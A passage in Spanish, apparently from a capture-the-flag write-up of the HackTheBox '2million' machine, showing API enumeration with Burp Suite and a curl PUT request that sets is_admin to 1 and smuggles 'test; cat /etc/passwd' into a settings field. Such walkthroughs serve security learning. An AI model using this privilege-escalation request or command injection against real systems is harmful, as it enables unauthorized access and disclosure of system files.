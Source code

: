 
## Enumerando más APIs

Con Burp Suite empezamos a mapear más rutas y nos topamos con rutas bajo `/api/v1/admin`. Nos fijamos en `/api/v1/admin/settings/update` y, para sorpresa, acepta métodos GET, POST y PUT, lo que indica una mala configuración.

![FotoTres](/assets/img/two-millions/Pasted%20image%2020250505004956.png)

Intentamos una inyección básica para ver si podemos escalar privilegios:

```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update \
  -H "Content-Type: application/json" \
  -H "Cookie: PHPSESSID=XXXX" \
  -d '{
    "email": "test@test.com",
    "is_admin": 1,
    "setting": "test; cat /etc/passwd"
  }'
```

Respuesta:

```json
{"id":13,"username":"test","is_admin":1}
```
